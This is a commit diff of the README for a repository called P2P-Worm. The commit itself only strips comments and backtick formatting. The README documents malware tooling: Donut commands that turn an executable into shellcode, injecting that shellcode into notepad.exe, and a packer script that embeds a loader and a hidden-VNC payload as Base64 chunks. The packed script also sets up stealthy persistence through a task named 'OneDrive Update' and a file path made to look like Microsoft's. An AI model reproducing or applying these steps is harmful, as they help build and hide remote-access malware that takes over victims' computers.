

Before and after one commit to Yuragy/P2P-Worm, a Markdown page: readme.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/readme.md
+++ b/readme.md
@@ -425,32 +425,27 @@ print(f"✓ Created {output_file}")
 
 Donut commands and injector usage:
 
-```bash
-# Donut → raw shellcode
+```
 donut.exe -f 3 -a 2 program.exe -o raw_shellcode.bin   # x64
 donut.exe -f 3 -a 1 program.exe -o raw_shellcode.bin   # x86
-
-# Add header
 python add_header.py raw_shellcode.bin final_shellcode.bin 2  # x64
 python add_header.py raw_shellcode.bin final_shellcode.bin 1  # x86
-
-# Pass to injector.exe PowerShell
 type final_shellcode.bin | injector.exe notepad.exe
 Get-Content final_shellcode.bin -AsByteStream | .\injector.exe notepad.exe
 ```
 
 ---
 
-## Packaging and Auto-Start via packer.ps1
+## Packaging and AutoStart via packer.ps1
 
-`packer.ps1` assembles a self-contained `start.ps1`. It takes `loader.exe` and `hvnc.bin` as input paths, and outputs a single script that contains both binaries as Base64 arrays.
+packer.ps1 assembles a self-contained start.ps1. It takes loader.exe and hvnc.bin as input paths, and outputs a single script that contains both binaries as Base64 arrays.
 
-* **Parameters.** `-LoaderPath`, `-ShellcodePath`, `-OutPs1` — strictly checked for existence. Files are read into memory and encoded in Base64.
-* **To-Chunks.** Long Base64 strings are split into blocks of 1000 characters for convenient embedding in the template.
-* **The `start.ps1` template.**
+* Parameters. -LoaderPath, -ShellcodePath, -OutPs1 — strictly checked for existence. Files are read into memory and encoded in Base64.
+* To-Chunks. Long Base64 strings are split into blocks of 1000 characters for convenient embedding in the template.
+* The `start.ps1` template.
 
-  1. Embeds the `$loaderChunks`/`$shellChunks` arrays.
-  2. The `Reassemble` function joins arrays and decodes them into bytes.
+  1. Embeds the $loaderChunks/$shellChunks arrays.
+  2. The Reassemble function joins arrays and decodes them into bytes.
   3. Persistence: copies the script itself to `%LOCALAPPDATA%\Microsoft\Win32Components\sync.ps1` and registers a `OneDrive Update` task on logon.
   4. Restores `ldr.exe` from Base64 if it is missing.
   5. Restores shellcode and sends it through `stdin` to `ldr.exe`.
````
